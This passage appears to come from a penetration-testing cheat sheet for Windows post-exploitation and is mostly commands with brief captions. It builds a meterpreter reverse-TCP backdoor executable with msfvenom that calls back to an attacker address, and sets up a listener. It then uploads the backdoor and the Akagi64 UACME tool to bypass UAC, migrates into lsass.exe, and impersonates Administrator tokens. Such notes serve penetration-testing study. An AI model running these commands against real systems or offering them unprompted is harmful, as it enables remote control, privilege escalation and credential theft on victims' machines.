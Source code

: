 > This command can be used to switch to the 64 Bit meterpreter session.

```Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.31.2 LPORT=4444 -f exe > 'backdoor.exe'
```

> Generating malicious executable using msfvenom.

```shell
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <my-IP>
set LRORT 1234
```
After create session

```shell
cd C://
mkdir Temp
cd Temp
upload backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
shell
.\Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

```console
/root/Desktop/tools/UACME/Akagi64.exe
```


> Location of the `Akagi` exploit that is used to bypass UAC.

```Shell
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

> `Akagi` command is used to run the exploit by bypassing the UAC.

```CMD
ps -S lsass.exe
migrate <process-ID>
```

> After the exploitation and meterpreter session migrate to the `lsass.exe` process.

#### Access Token Impersonation:

**Note:**

> Everything demonstrated here after is basically done after the initial foothold.

***YOU HAVE TO PERFROM THE FOLLOWING FUNCTION IN THE METERPRETER SESSION. YOU CAN TO FOLLOWING IF AND ONLT IF YOU HAVE THE `SeImpersonationPrivilages` IN THE `getprivs` SECTION***

```msfconsole
load incognito
list_tokens -u
impersonate_token "<group-name>\Administrator"
getuid
pgrep explorer
migrate <process-id>
```
